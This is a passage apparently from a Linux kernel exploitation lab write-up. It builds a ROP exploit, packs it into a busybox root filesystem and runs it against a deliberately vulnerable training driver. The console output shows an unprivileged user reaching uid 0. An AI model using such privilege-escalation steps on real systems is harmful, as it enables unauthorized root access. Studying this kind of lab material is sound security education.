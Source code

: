 - Host: build and add rop_exploit to rootfs
  
  ```sh
  $ gcc --static rop_exploit.c -o rop_exploit
  $ cd ~/busybox-1.19.4/_install/
  $ cp ~/kernel_rop/rop_exploit .
  $ find . | cpio -o --format=newc > ../rootfs.img
  ```

- Boot and test
  
  ```sh
  / # insmod drv.ko 
  [   57.808600] drv: module verification failed: signature and/or required key missing - tainting kernel
  [   57.824089] addr(ops) = ffffffffa0002340
  / # mdev -s
  / # chmod o+rw /dev/vulndrv

  / # adduser user
  addgroup: /etc/group: No such file or directory
  passwd: unknown uid 0  
  / # su user
  ~ $ id
  uid=1000(user) gid=1000 groups=1000

  / $ ./rop_exploit ffffffffa0002340 18446744073645214365 21
  array base address = 0xffffffffa0002340
  stack address = 0x81527828
  [  165.879158] device opened!
  [  165.888184] size = fffffffffc2a4a9d
  [  165.892331] fn is at ffffffff81527828
  / # id
  uid=0 gid=0
  ```
